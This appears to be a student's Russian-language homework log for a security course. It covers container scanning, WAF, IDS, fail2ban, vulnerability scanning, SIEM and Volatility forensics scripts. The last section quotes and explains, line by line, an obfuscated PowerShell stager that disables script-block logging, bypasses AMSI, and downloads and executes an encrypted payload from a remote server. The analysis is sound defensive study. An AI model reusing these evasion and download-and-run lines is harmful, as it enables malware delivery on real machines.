 docker run -it -v /etc/passwd:/etc/passwd -u 'id -u':'id -g' -v 'pwd':'pwd' -w 'pwd' ubuntu:18.04 sh

 ```

 ![Tms user](/Lesson_17/%D0%94%D0%97_17_4.png)

 5. Прогнать образ через один из сканеров безопасности проанализировать результаты

 Для проверки на уязвимости был выбран сканер [https://github.com/quay/clair](https://github.com/quay/clair) по причине более понятных мануалов по установке и использованию
 
  Установка [https://aquasecurity.github.io/trivy/v0.55/getting-started/installation/](https://aquasecurity.github.io/trivy/v0.55/getting-started/installation/)

 ```bash

 sudo apt-get install wget apt-transport-https gnupg

 wget -qO - https://aquasecurity.github.io/trivy-repo/deb/public.key | gpg --dearmor | sudo tee /usr/share/keyrings/trivy.gpg > /dev/null

 echo "deb [signed-by=/usr/share/keyrings/trivy.gpg] https://aquasecurity.github.io/trivy-repo/deb generic main" | sudo tee -a /etc/apt/sources.list.d/trivy.list

 sudo apt-get update

 sudo apt-get install trivy

 ```
 Пример использования

 ```bash

 sudo trivy image ubuntu:18.04

 ```
 
 Проверка на наличие уязвимостей docker image ubuntu:18.04

 ![ubuntu:18.04](/Lesson_17/%D0%94%D0%97_17_5_1.png)

 Проверка на наличие уязвимостей docker image juice shop

 ![juice_shop_1](/Lesson_17/%D0%94%D0%97_17_5_2.png)

 ![juice_shop_2](/Lesson_17/%D0%94%D0%97_17_5_3.png)

___
> Пишем Dockerfile
___

 [Создание Dockerfile ](https://admin812.ru/kak-sozdat-obraz-docker-s-pomoshhyu-dockerfile-v-ubuntu-20-04-lts.html)

 [Настройка конфигурации nginx](https://serverspace.ru/support/help/ustanovka-i-zapusk-nginx-v-docker-kontejnere-na-ubuntu/?utm_source=google.com&utm_medium=organic&utm_campaign=google.com&utm_referrer=google.com)

 Результат:

 ![Nginx](/Lesson_17/%D0%94%D0%97_17_6_1.png)

</details>


<details><summary>Занятие №18 Защита инфраструктуры приложений</summary>

___
> Установить 2FA на linux (Google authenticator)
___

 [Мануал настройки Google Authenticator](https://www.linuxbabe.com/ubuntu/two-factor-authentication-ssh-key-ubuntu)

 ![2FA](/Lesson_18/%D0%94%D0%97%2018_1.jpg)

 
 ___
> Online песочница any.run
___
 
 ![any.run](/Lesson_18/%D0%94%D0%97%2018_2.jpg)

 
</details>



<details><summary>Занятие №19 Основные виды СЗИ</summary>

___
> Установить антивирус ClamAV
___


 Cлайды 45-48

 [Мануал ClamAV](/Lesson_19/19_szi.pdf)
 
 ![ClamAV](/Lesson_19/%D0%94%D0%97_19_1.png)

___
> Установить YARA
___
 
 [Мануал по установке YARA](https://yara.readthedocs.io/en/latest/gettingstarted.html)

 [Мануал по запуску YARA](https://yara.readthedocs.io/en/stable/commandline.html)

 ![YARA_target](/Lesson_19/%D0%94%D0%97_19_2_1.png)
 
 ![YARA_rule_&_scan](/Lesson_19/%D0%94%D0%97_19_2_2.png)

___
> Установить WAF (nginx + Modsecurity)
___
 
 [Мануал по настройке WAF Modsecurity+Nginx](https://www.linuxbabe.com/security/modsecurity-nginx-debian-ubuntu)

 В мануале ниже на моменте настройки конфига nginx (/etc/nginx/nginx.conf) необходимо выполнить пятый этап из мануала выше.

 [Мануал по настройке WAF Modsecurity+Nginx](https://github.com/sm1lexops/Profile_challenges?tab=readme-ov-file#5-%D0%BF%D1%80%D0%B5%D0%B4%D0%BB%D0%BE%D0%B6%D0%B8%D1%82%D0%B5-%D1%81%D1%85%D0%B5%D0%BC%D1%83-%D0%B8%D0%BD%D1%82%D0%B5%D0%B3%D1%80%D0%B0%D1%86%D0%B8%D0%B8-web-application-firewall-waf-%D0%B2-%D0%B8%D0%BD%D1%84%D1%80%D0%B0%D1%81%D1%82%D1%80%D1%83%D0%BA%D1%82%D1%83%D1%80%D0%B5-%D0%BD%D0%B0%D0%BF%D0%B8%D1%88%D0%B8%D1%82%D0%B5-%D0%BA%D0%BE%D0%BD%D1%84%D0%B8%D0%B3%D1%83%D1%80%D0%B0%D1%86%D0%B8%D1%8E-%D0%B4%D0%BB%D1%8F-%D0%B2%D0%BD%D0%B5%D0%B4%D1%80%D0%B5%D0%BD%D0%B8%D1%8F-waf-%D0%BD%D0%B0%D0%BF%D1%80%D0%B8%D0%BC%D0%B5%D1%80-modsecurity-%D0%B2-nginx-%D0%BD%D0%B0%D0%BF%D0%B8%D1%88%D0%B8%D1%82%D0%B5-%D0%BA%D0%BE%D0%BD%D0%BA%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B5-%D0%BF%D1%80%D0%B8%D0%BC%D0%B5%D1%80%D1%8B-%D0%BF%D1%80%D0%B0%D0%B2%D0%B8%D0%BB-%D0%B1%D0%B5%D0%B7%D0%BE%D0%BF%D0%B0%D1%81%D0%BD%D0%BE%D1%81%D1%82%D0%B8-%D0%BA%D0%BE%D1%82%D0%BE%D1%80%D1%8B%D0%B5-%D0%B2%D1%8B-%D0%B1%D1%8B-%D0%BF%D1%80%D0%B8%D0%BC%D0%B5%D0%BD%D0%B8%D0%BB%D0%B8-%D0%B2-waf-%D0%BD%D0%B0%D0%BF%D1%80%D0%B8%D0%BC%D0%B5%D1%80-%D1%84%D0%B8%D0%BB%D1%8C%D1%82%D1%80%D0%B0%D1%86%D0%B8%D1%8F-sql-%D0%B8%D0%BD%D1%8A%D0%B5%D0%BA%D1%86%D0%B8%D0%B9-xss-%D0%B0%D1%82%D0%B0%D0%BA-%D0%B1%D0%BB%D0%BE%D0%BA%D0%B8%D1%80%D0%BE%D0%B2%D0%BA%D0%B0-%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%BD%D1%8B%D1%85-%D0%BF%D0%B0%D1%82%D1%82%D0%B5%D1%80%D0%BD%D0%BE%D0%B2)

 ![Результат](/Lesson_19/waf%20nginx.PNG)

</details>


<details><summary>Занятие №20 Основные виды СЗИ </summary>

___
> Установка и тестирование Suricata IDS
___

 [Мануал установки и настройки Suricata (стр. 23-39)](/Lesson_20/20_SZI.pdf)

 [Git с правилами на детектирование разных режимов работы сетевого сканера nmap](https://github.com/aleksibovellan/opnsense-suricata-nmaps)

 Конфиг suricata (/etc/suricata/suricata.yaml)

 ![suricata.yaml_1](/Lesson_20/%D0%94%D0%97_20_yaml_1.png)

 ![suricata.yaml_2](/Lesson_20/%D0%94%D0%97_20_yaml_2.png)

 Кастомные правила для определения работы nmap

 ![local.rules](/Lesson_20/%D0%94%D0%97_20_rules_1.png)

 Лог сработки правила (/var/log/suricata/fast.log)

 ![local.rules](/Lesson_20/%D0%94%D0%97_20_log_1.png)
___
> Тест работы fail2ban
___
 
 [Мануал установки и настройки Suricata (стр. 13-16)](/Lesson_20/20_SZI.pdf)

 Логи fail2ban (блокировка по умолчанию осуществляется на 10 минут) /var/log/fail2ban.log

 ![fail2ban.log_1](/Lesson_20/%D0%94%D0%97_20_f2b_1.png)

 ![fail2ban.log_2](/Lesson_20/%D0%94%D0%97_20_f2b_2.png)

 Брутфорс при помощи Hydra до начала работы fail2ban и после начала работы fail2ban

 ![Hydra до](/Lesson_20/%D0%94%D0%97_20_h_1.png)

 ![Hydra после](/Lesson_20/%D0%94%D0%97_20_h_2.png)

 Брутфорс при помощи Medusa до начала работы fail2ban и после начала работы fail2ban

 ![Medusa до](/Lesson_20/%D0%94%D0%97_20_m_1.png)

 ![Medusa после](/Lesson_20/%D0%94%D0%97_20_m_2.png)

</details>



<details><summary>Занятие №21 Audit </summary>

___
> Ознакомление с документацией
___

 [NIST standards docs](https://csrc.nist.gov/publications/sp800)

 [OWASP Top Ten](https://owasp.org/www-project-top-ten/)

 [CIS рекомендации](https://www.cisecurity.org/cis-benchmarks)

 [PCI DSS библиотека](https://www.pcisecuritystandards.org/document_library/)

</details>



<details><summary>Занятие №22 Vulnerability Assessment </summary>

___
> Scanner OpenVAS
___

 [Установка OpenVAS Docker compose](https://greenbone.github.io/docs/latest/22.4/container/index.html#)

 [Установка OpenVAS способом компиляции (неполучилось нормально скомпилировать)](https://greenbone.github.io/docs/latest/22.4/source-build/index.html)

 [Готовый образ OpenVAS](https://www.greenbone.net/en/greenbone-free/#toggle-id-1)

 [Мануал по работе с OpenVAS](https://habr.com/ru/articles/203766/)
 
 ![Сканирование_1](/Lesson_22/ДЗ_22_1.png)

 ![Сканирование_2](/Lesson_22/ДЗ_22_5.png)

 ![Уязвимость](/Lesson_22/ДЗ_22_2.png)
 
 Устранение данной уязвимости:
  Програмное решение: 

      - обновить версию ssh

  Административное решение:

       - вход только по сертификату

       - вход только с разрешенных хостов

       - отключить SSH

       - двухфакторная аутентификация


___
> Зарегистрироваться на opencve.io
___
 
 ![OpenCVE_1](/Lesson_22/ДЗ_22_3.png)

 ![OpenCVE_2](/Lesson_22/ДЗ_22_4.png)
___
> Установить PatrOwl
___

 [Мануал по запуску docker версии Partowl ](https://github.com/Patrowl/PatrowlDocs/blob/master/installation/installation-guide.md)

 ![PatrOwl](/Lesson_22/ДЗ_22_6.png)

</details>



<details><summary>Занятие №23 Event Management </summary>

___
> Изучаем на лабораторных стендах Splunk SIEM
___

 Лабораторные работы по анализу логов достаточно простые.

 Для выполнения лабораторных работ по анализу ВПО необходимо больше практики в обращении с инструментами анализа ПО.

 ![Лабы](/Lesson_23/ДЗ_23_1.png)

___
> Установка EFK стэка с помощью docker-compose
___
 
Не получилось поднять ELK стэк так как не хочет подниматься контейнер с коннектором fluent. Точнее по какой-то причине не устанавливается fluent-plugin-elasticsearch.

Были испробованы:
  
  - использование VPN
  - различные конфиги установки (как из обычных мануалов, так и из сгенерированных AI)
  - различные docker image (как официальные fluent, так и кастомные под ELK стэк)

Вместо EFK был развернут ELK 

[Мануал по запуску Docker compose ELK](https://www.elastic.co/blog/getting-started-with-the-elastic-stack-and-docker-compose)

![Результат](/Lesson_23/ДЗ_23_2.png)

!Решение проблемы найдено. EFK заработал.

[Мануал](https://www.howtoforge.com/how-to-set-up-an-elasticsearch-fluentd-and-kibana-efk-logging-stack-on-ubuntu-22-04/)

Необходимые изменения в Dockerfile fluent 

```docker

FROM fluent/fluentd:v1.14-1

USER root

RUN gem update --system && \
gem install fluent-plugin-elasticsearch --source http://rubygems.org

```

[Источник решения](https://stackoverflow.com/questions/71120621/efk-system-is-build-on-docker-but-fluentd-cant-start-up)

![Результат](/Lesson_23/ДЗ_23_elk.png)

___
> Установка SIEM Wazuh с помощью docker-compose
___

[Мануал по запуску Docker compose Wazuh (single node)](https://documentation.wazuh.com/current/deployment-options/docker/docker-installation.html)

Времени на полную развертку Wazuh пока не было, но на курсах НЦОТ выполняли установку wazuh + win/linux агенты, написание правил корреляции, интеграция с Hive + оповещение об инцедентах высокого уровня на электронную почту.

![Wazuh](/Lesson_23/ДЗ_23_Wazuh.png)

</details>



<details><summary>Занятие №24-25 Forensics, Incident response </summary>

___
> Изучить основные виды HTTP methods and requests
___

 [Основные виды HTTP methods and requests](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)

 ___
> Установить volatility на ubuntu
___
 
 AVML необходим для создания файла дампа памяти. Volatility для работы с файлом дампа памяти.

 [Мануал Volatility+AVML](https://docs.google.com/document/d/1v7u6HVrae1R4fCCs1SNAGryjy5tmJCPDKq2Hyhqd9Fo/edit?pli=1&tab=t.0)

 [Мануал по получению таблицы символов на Ubuntu](https://www.iblue.team/memory-forensics-1/volatility-plugins/build-custom-linux-profile-for-volatility)

 !Важно. Скопировать полученный json файл необходимо в /путь к папке/volatility3/volatility3/symbols/linux/ папки linux по умолчанию нет, ее надо создать. То есть в клонированном репозитории необходимо зайти в одноименную папку volatility3 и уже в ней искать папку symbols.

 ![Результат](/Lesson_24_25/ДЗ_25_vol.png)

</details>


<details><summary>Занятие №26 Scripting pt.1 </summary>

___
> Написать красочный интерактивный bash-script для автоматизации ваших часто повторяемых действий 
___

Был написан скрипт установки и запуска volatility3 с возможностью выбора системы Ubuntu или Debian.

[Main](/Lesson_26/main)

[Ubuntu](/Lesson_26/ubuntu)

[Debian](/Lesson_26/debian)

Скрипты размещаются в домашнюю директорию пользователя (~) и запускаются из нее же.

Main - обновляет систему; проверяет наличие и устанавливает в случае необходимости приложения wget, python, git; дает возможность выбора варианта установки volatility в зависимости от системы.

Ubuntu - устанавиливает avml, dwarf2json, volatility3; снимает дамп памяти; создает символьную таблицу и размещает ее внутри директории volotility3; дает возможность выбрать модуль первого сканирования дампа памяти.

Debian - устанавиливает avml, dwarf2json, volatility3; снимает дамп памяти; создает символьную таблицу и размещает ее внутри директории volotility3; дает возможность выбрать модуль первого сканирования дампа памяти.

Main
``` bash

#!/usr/bin/env bash

RED='\e[31m'
GREEN='\e[32m'
BLUE='\e[34m'
RESET='\e[0m'

echo -e "$BLUE Welcome to install Volatility3 $RESET"
sudo apt-get update >/dev/null

if dpkg -l python3-full >/dev/null
then echo -e "$GREEN Already installed python3-full $RESET"
else sudo apt-get install -y pyton3-full
fi

if dpkg -l python3-pip >/dev/null
then echo -e "$GREEN Already installed python3-pip $RESET"
else sudo apt-get install -y pyton3-pip
fi

if dpkg -l wget >/dev/null
then echo -e "$GREEN Already installed wget $RESET"
else sudo apt-get install -y wget 
fi

if dpkg -l git >/dev/null
then echo -e "$GREEN Already installed git $RESET"
else sudo apt-get install -y git 
fi

if dpkg -l golang-go >/dev/null
then echo -e "$GREEN Already installed golang-go $RESET"
else sudo apt-get install -y golang-go 
fi

PS3='Select system for install volatility3: '
sys=("Ubuntu" "Debian" "Exit")
select fav in "${sys[@]}"; do
    case $fav in
        "Ubuntu")
            echo -e  "$GREEN Install volatility3 for ubuntu $RESET"
	    ~/ubuntu
            break
            ;;
        "Debian")
            echo -e "$GREEN Install volatility3 for ubuntu $RESET"
	    ~/debian
            break
            ;;
	"Exit")
	    echo -e "$RED User requested exit $RESET"
	    exit 0
	    ;;
        *) echo -e "$RED invalid option $REPLY $RESET";;
    esac
done

```

Debian
```bash 

#!/usr/bin/env bash

RED='\e[31m'
GREEN='\e[32m'
BLUE='\e[34m'
RESET='\e[0m'


cd ~ 

echo -e "$GREEN Download the latest release of avml $RESET"

wget https://github.com/microsoft/avml/releases/download/v0.14.0/avml

echo -e "$GREEN Make the file executable $RESET"

sudo chmod +x avml


echo -e "$GREEN Move the executable to a directory in /usr/local/bin $RESET"

sudo mv avml /usr/local/bin/

if avml --help >/dev/null
then echo -e "$GREEN AVML is installed $RESET"
else echo -e "$RED AVML is not installed $RESET" && exit 0
fi

echo -e "$GREEN Create memory dump $RESET" 

sudo avml ~/memory.dmp
sudo chown $USER:$USER memory.dmp
sudo chmod 755 memory.dmp


echo -e "$GREEN Install Volatility3 $RESET"

git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3

echo -e "$GREEN Install Volatility3 requirements $RESET"


pip3 install -r requirements-minimal.txt
pip3 install -r requirements.txt

echo -e "$GREEN Install the corresponding debug symbols $RESET"

sudo tee /etc/apt/sources.list.d/debug.list << EOF
deb http://deb.debian.org/debian-debug/ $(lsb_release -cs)-debug main
deb http://deb.debian.org/debian-debug/ $(lsb_release -cs)-proposed-updates-debug main
EOF

sudo apt update
sudo apt install --yes linux-image-$(uname -r)-dbg


echo -e "$GREEN Instal dwarf2json $RESET"
cd 
git clone https://github.com/volatilityfoundation/dwarf2json.git
cd dwarf2json
go build
sudo cp dwarf2json /usr/local/bin/

if dwarf2json --help >/dev/null
then echo -e "$GREEN dwarf2json is installed $RESET"
else echo -e "$RED dwarf2json is not installed $RESET" && exit 0
fi

echo -e "$GREEN Increase swap space $RESET"
sudo fallocate -l 4G /swapfile
sudo chmod 600 /swapfile
sudo mkswap /swapfile
sudo swapon /swapfile

cd /usr/lib/debug/boot/
chmod 755 vmlinux-$(uname -r)
chown $USER:$USER vmlinux-$(uname -r)
sudo mkdir ~/volatility3/volatility3/symbols/linux
sudo dwarf2json linux  --elf /usr/lib/debug/boot/vmlinux-$(uname -r) --system-map /boot/System.map-$(uname -r) > Debian-$(uname -r).json
sudo cp ~/Debian-$(uname -r).json ~/volatility3/volatility3/symbols/linux/
cd ~/volatility3

PS3='Select module for volatility3: '
sys=("Lsof" "Pstree" "Bash" "Check_creds" "Exit")
select fav in "${sys[@]}"; do
    case $fav in
        "Lsof")
            echo -e  "$GREEN Lists open files for each processes $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.lsof.Lsof
            break
            ;;
         "Pstree")
            echo -e  "$GREEN Plugin for listing processes in a tree based on their parent process ID $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.pstree.PsTree
            break
            ;;
        "Bash")
            echo -e  "$GREEN Recovers bash command history from memory $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.bash.Bash
            break
            ;;
        "Check_creds")
            echo -e  "$GREEN Lists open files for each processes $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.check_creds.Check_creds
            break
            ;;
        "Exit")
            echo -e "$RED User requested exit $RESET"
            exit 0
            ;;
             *) echo -e "$RED invalid option $REPLY $RESET";;
    esac
done

```

Ubuntu
```bash 

#!/usr/bin/env bash

RED='\e[31m'
GREEN='\e[32m'
BLUE='\e[34m'
RESET='\e[0m'

cd 

echo -e "$GREEN Download the latest release of avml $RESET"

wget https://github.com/microsoft/avml/releases/download/v0.14.0/avml

echo -e "$GREEN Make the file executable $RESET"

sudo chmod +x avml


echo -e "$GREEN Move the executable to a directory in /usr/local/bin $RESET"

sudo mv avml /usr/local/bin/

if avml --help >/dev/null
then echo -e "$GREEN AVML is installed $RESET"
else echo -e "$RED AVML is not installed $RESET" && exit 0
fi

echo -e "$GREEN Create memory dump $RESET" 

sudo avml ~/memory.dmp
sudo chown $USER:$USER memory.dmp
sudo chmod 755 memory.dmp


echo -e "$GREEN Install Volatility3 $RESET"

git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3

echo -e "$GREEN Install Volatility3 requirements $RESET"


pip3 install -r requirements-minimal.txt
pip3 install -r requirements.txt

echo -e "$GREEN Install the corresponding debug symbols $RESET"

release=$(lsb_release -cs)

sudo tee /etc/apt/sources.list.d/ddebs.list <<EOF

deb http://ddebs.ubuntu.com $release main restricted universe multiverse
deb http://ddebs.ubuntu.com $release-updates main restricted universe multiverse
deb http://ddebs.ubuntu.com $release-proposed main restricted universe multiverse


EOF

wget -O - http://ddebs.ubuntu.com/dbgsym-release-key.asc | sudo apt-key add -


sudo apt update
sudo apt install linux-image-$(uname -r)-dbgsym

# Debug kernel is at: /usr/lib/debug/boot/vmlinux-$(uname -r)
echo -e "$GREEN Instal dwarf2json $RESET"
cd 
git clone https://github.com/volatilityfoundation/dwarf2json.git
cd dwarf2json
go build
sudo cp dwarf2json /usr/local/bin/
if dwarf2json --help >/dev/null
then echo -e "$GREEN dwarf2json is installed $RESET"
else echo -e "$RED dwarf2json is not installed $RESET" && exit 0
fi


cd /usr/lib/debug/boot/
chmod 755 vmlinux-$(uname -r)
chown $USER:$USER vmlinux-$(uname -r)
sudo mkdir ~/volatility3/volatility3/symbols/linux
sudo dwarf2json linux  --elf /usr/lib/debug/boot/vmlinux-$(uname -r) --system-map /boot/System.map-$(uname -r) > ~/Ubuntu-$(uname -r).json
sudo cp ~/Ubuntu-$(uname -r).json ~/volatility3/volatility3/symbols/linux/
cd ~/volatility3

PS3='Select module for volatility3: '
sys=("Lsof" "Pstree" "Bash" "Check_creds" "Exit")
select fav in "${sys[@]}"; do
    case $fav in
        "Lsof")
            echo -e  "$GREEN Lists open files for each processes $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.lsof.Lsof
            break
            ;;
         "Pstree")
            echo -e  "$GREEN Plugin for listing processes in a tree based on their parent process ID $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.pstree.PsTree
            break
            ;;
        "Bash")
            echo -e  "$GREEN Recovers bash command history from memory $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.bash.Bash
            break
            ;;
        "Check_creds")
            echo -e  "$GREEN Lists open files for each processes $RESET"
            sudo python3 vol.py -f ~/memory.dmp linux.check_creds.Check_creds
            break
            ;;
        "Exit")
            echo -e "$RED User requested exit $RESET"
            exit 0
            ;;
             *) echo -e "$RED invalid option $REPLY $RESET";;
    esac
done

```
 
 __
> Написать powershell-script
___
 
Скрипт. который подключается по протоколу SMB к виртуальным машинам и копирует отфильтрованные журналы в одно место для анализа, передачи или сохранения.

```powershell

#массив с именами хостов, с которых необходимо снять лог-файлы.
 
$files = 'PROGRAMMERS-01', 'PROGRAMMERS-03', 'PROGRAMMERS-04', 'PROGRAMMERS-05', 'PROGRAMMERS-06', 'PROGRAMMERS-07', 'PROGRAMMERS-08', 'PROGRAMMERS-09', 'PROGRAMMERS-10', 'PROGRAMMERS-11', 'PROGRAMMERS-12', 'PROGRAMMERS-13', 'PROGRAMMERS-14', 'PROGRAMMERS-15', 'PROGRAMMERS-16', 'PROGRAMMERS-17', 'PROGRAMMERS-18'
 
#рекурсивная функция, которая подставляет значения из массива.
#wevtutil - функция для работы с журналами событий windows. epl - команда для экспорта системных логов. system - название журнала, который необходимо экспортировать
#\\$file\c$\$file.evtx - путь куда экспортируются лог-файл. По неизвестной мне причине скрипт работает только если сохранять лог локально на ту систему с которой снимаются логи.
#/r - параметр, который отвечает за то, чтобы команда отрабатывала на удаленном хосте.
#/q - фильтр запроса.
 
foreach ($file in $files) {
 
wevtutil epl system \\$file\c$\$file.evtx /r:$file /q:*[System[EventID=7045]]
 
}
 

$sourceFilePath = "c$"
$destinationFolderPath = "c$\test"
 
foreach ($file in $files) {
    $sourceFullPath = "\\$file\c$\$file.evtx"
    $destinationFullPath = "\\rakovskaja-13\$destinationFolderPath\$file.evtx"
    Copy-Item -Path $sourceFullPath -Destination $destinationFullPath
}  
 
 
foreach ($file in $files) {
Remove-Item -Path "\\$file\C$\$file.evtx"
 
}

```

</details>



<details><summary>Занятие №27 Scripting, web, python  pt. 2 </summary>

___
> Написать красочный интерактивный python-script для автоматизации ваших часто повторяемых действий, либо парсинга сайта для получения нужной информации
___


___
>	Расписать действия данного powershell
___

![Script](/Lesson_27/ДЗ_25_vol.png)

IF ($PSVersionTAbLE.PSVErsiON.MaJor-ge3) {
Эта строка проверяет версию PowerShell. $PSVersionTable - это автоматическая переменная, содержащая информацию о версии PowerShell. Условие проверяет, является ли основная (Major) версия PowerShell 3 или выше. Если да, выполняется код внутри блока.

$GPF=[REF].AsSemBLY.GETTyPE('System.Management.Automation.Utils')."GETFiel d"('cachedGroupPolicySettings',"N'+'onPublic,Static');
Эта строка использует рефлексию для доступа к скрытому статическому полю 'cachedGroupPolicySettings' в классе System.Management.Automation.Utils. [REF] - это сокращение для System.Reflection.Assembly. Метод GetField используется для получения информации о поле, которое является непубличным (NonPublic) и статическим (Static).

If ($GPF) {
Проверяет, успешно ли получено поле в предыдущей строке. Если $GPF не null, выполняется код внутри блока.

$GPC=$GPF.GEtVaLue($NULL);
Получает значение поля cachedGroupPolicySettings. $NULL передается как параметр, так как это статическое поле и не требует экземпляра объекта.

IF ($GPC['ScriptB'+'lockLogging]) {
Проверяет, существует ли ключ 'ScriptBlockLogging' в полученных настройках групповой политики. Строка разделена на части для усложнения обнаружения.

$GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
$GPC['ScriptB'+'lockLogging']['EnableScriptBlockinvocationLogging']=0 }
Эти строки отключают логирование блокировки скриптов и логирование вызовов скриптовых блоков, устанавливая соответствующие значения в 0.

$vAl=[CoLLeCtionS.GENEric.DICtiONARy[striNg,SYstEm.ObjECT]]::nEw();
Создает новый экземпляр словаря (Dictionary), который будет использоваться для хранения настроек. Ключи - строки, значения - объекты.

$Val.ADd('EnableScriptB'+'lockLogging',0);
$VAL.AdD('EnableScriptBlockinvocationLogging',0);
Добавляет в созданный словарь два ключа, оба со значением 0, что соответствует отключению логирования.

$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShelllS criptB'+'lockLogging']=$VAI
Применяет новые настройки, добавляя их в кэш групповой политики для указанного пути реестра.

} ELSe
[ScriPtBLocK]."GETFieLd"("signatures",'NonPublic,Static').SEtValuE($NULL,(New-OBj eCtColLEctIONs.GENERic.HaShSEt[sTrING]))
Если предыдущие действия не удались, этот код очищает подписи скриптовых блоков, устанавливая для поля "signatures" пустой HashSet.

[ReF].AsSembLY.GetTYpE('System.Management.Automation.AmsiUtils")?{S_)
%(
$_.GetFleID('amsilnitFailed',"NonPublic,Static').SeTValUe($NULL,$True)};
Эти строки пытаются отключить AMSI (Antimalware Scan Interface), устанавливая флаг 'amsiInitFailed' в значение True. Это может позволить обойти антивирусное сканирование.

[ SysteM.NEt .SERvICePolnTMANAgeR]::ExPEcT100COntinUe=0;
Отключает ожидание ответа 100-Continue от сервера при HTTP-запросах.

$WC= New-ObJECtSYstEm.NEt .WEBCLieNT;
Создает новый объект WebClient для выполнения веб-запросов.

Su='Mozilla/5.0(WindowsNT6.1;WOW64;Trident/7.0;rv:11.0)likeGecko';
$wc.HeAdErS.ADD('User-Agent',Su);
Устанавливает пользовательский User-Agent для веб-клиента, маскируясь под Internet Explorer 11.

$Wc.PRoXY=[ SYstem.NEt .WEbRequESt]::DEfAulTWeBProxY;
$wC.ProxY.CRedENTiAls=[ SysTEM.NEt .CrEDeNTialCaCHE]::DEFAULtNeTworKCrEd EnTiaLs;
Настраивает прокси-сервер для веб-клиента, используя системные настройки прокси и учетные данные по умолчанию.

$Script:Proxy=$wc.Proxy;
Сохраняет настройки прокси в глобальную переменную скрипта для возможного дальнейшего использования.

$K=[SYsTEM.Text.ENcodiNg]::ASCII.GETBYtES('99754106633f94d350db34d548d609 1a");
Создает массив байтов из заданной строки, который будет использоваться как ключ для шифрования/дешифрования.

$R={...};
Определяет анонимную функцию (лямбда-выражение) для реализации алгоритма дешифрования (предположительно RC4).

$ser='http://10.6.100.123:80'; $t="/news.p hp';
Устанавливает адрес сервера и путь для загрузки дополнительных данных.

$WC.HeadERS.AdD("Cookie","session=8xD4koAuu7qHah4KQzwZ/kDq40c=");
Добавляет куки к запросу, возможно, для аутентификации на удаленном сервере.

$DAtA=$WC.DoWNloaDDAtA($SER+$T);
Загружает данные с указанного URL.

$IV=$DatA[0…3]; $datA=$DATa[4…$datA.lengT H];
Извлекает первые 4 байта как вектор инициализации (IV) и остальные данные как зашифрованное содержимое.

-join[ChAr[]](&$R$daTA($IV+$K))|IEX
Расшифровывает данные с помощью функции $R, преобразует результат в строку и выполняет его как PowerShell-код с помощью оператора IEX (Invoke-Expression).

Этот скрипт представляет собой сложную вредоносную программу, предназначенную для обхода систем безопасности, загрузки и выполнения дополнительного кода с удаленного сервера. Он использует различные методы обфускации и техники обхода защиты, что делает его крайне опасным.

</details>